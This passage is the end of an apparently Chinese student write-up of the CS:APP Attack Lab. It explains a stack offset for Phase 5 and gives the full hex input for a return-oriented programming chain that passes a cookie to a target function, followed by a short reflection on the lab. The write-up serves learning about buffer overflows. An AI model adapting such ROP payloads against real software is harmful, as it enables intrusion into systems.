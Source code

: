 逻辑在图上标的很清楚，这里就不再用文字写啦！

**要注意**，`getbuf`执行`ret`后相当于进行了一次`pop`操作，`test`的栈顶指针`%rsp=%rsp+0x8`，所以`cookie`相对于此时栈顶指针的偏移量是`0x48`而不是`0x50`

### Solution

根据上图的栈帧，写出输入序列：

```shell
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
```

![](./assets/image-20220305193301330.png)

**Pass! 攻击成功！**

## 总结

- 本实验涉及的内容在课本中只有短短几页的篇幅，而实际操作中却要考虑如此多的东西，确实是那句话“纸上得来终觉浅，绝知此事要躬行”。五个`Phase`的难度是层层递进的，`Part 1`让我对部分汇编指令以及栈的原理有了更深的领悟；`Part 2`可能就更加贴合实际工程项目了，我在这里初步学习了“ROP”这一天才的攻击技术，实现成功的攻击需要对每一个字节都能有足够的敏感。同时，在我以后编写的代码中，也应该注意到缓冲区溢出的问题
- 本实验耗时2天，约9小时



